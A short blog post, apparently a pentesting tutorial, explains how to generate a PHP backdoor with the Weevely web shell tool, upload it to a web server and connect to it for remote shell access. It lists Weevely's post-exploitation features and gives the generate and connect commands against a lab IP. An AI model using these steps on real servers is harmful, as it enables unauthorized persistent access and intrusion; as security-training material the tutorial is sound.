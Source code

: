 ```yaml
---
layout: post
title: PHP backdoor with Weevely
---
```


In this tutorial we will create a backdoor by uploading PHP file on the server and gaining a backdoor.

Weevely comes pre-installed on kali-linux.

Some other features of weevely include:

•	Shell access to the target


•	SQL console pivoting on the target


•	HTTP proxy pivoting on the target


•	Upload and download files


•	Spawn reverse and direct TCP shells


•	Audit remote target security


•	Run Meterpreter payloads


•	Port scan pivoting on target


•	Mount the remote filesystem


•	Bruteforce SQL accounts pivoting on the target.



Weevely is a web shell designed for post-exploitation purposes that can be extended over the network at runtime.

Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.


How to Generate a PHP Backdoor using Weevely?
 
weevely generate <password> <path>

![](/images/2020-1-28-weevely/1.png)

Upload the 405.php to the sever. 


![](/images/2020-1-28-weevely/2.png)


To establish the session: 

weevely http://192.168.1.107/405.php 0xcf

![](/images/2020-1-28-weevely/3.png)


More on installation : [https://github.com/epinna/weevely3/wiki/Install](https://github.com/epinna/weevely3/wiki/Install)

Credit: MazenElzanaty @pentesttools
